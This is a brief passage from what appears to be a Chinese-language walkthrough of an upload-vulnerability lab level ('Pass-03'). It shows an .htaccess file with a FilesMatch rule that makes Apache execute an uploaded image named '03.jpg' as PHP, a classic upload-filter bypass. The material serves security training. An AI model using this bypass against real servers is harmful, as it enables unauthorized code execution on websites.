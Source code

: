 ![](image/02-1.png)

#### Pass-03

重写文件解析规则绕过。上传先上传一个名为`.htaccess`文件，内容如下：

```
<FilesMatch "03.jpg">
SetHandler application/x-httpd-php
</FilesMatch>
```

![](image/03-1.png)
